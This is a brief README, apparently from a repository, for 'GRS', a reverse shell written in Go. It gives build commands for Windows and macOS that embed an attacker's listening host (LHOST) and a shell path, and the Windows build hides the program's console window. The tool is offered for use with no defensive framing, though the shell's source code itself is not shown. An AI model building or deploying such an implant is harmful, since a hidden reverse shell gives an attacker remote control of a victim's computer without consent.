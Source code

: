 # GRS
### A Golang reverse shell


#### To build:
Windows:
        `$ go build -ldflags "-X 'main.host=LHOST' -X 'main.shell=shell path' -H windowsgui" "windows/GRS.go"`
    
Darwin:
        `$ go build -ldflags "-X 'main.host=LHOST' -X 'main.shellPath=shell path'" "darwin/GRS.go"`
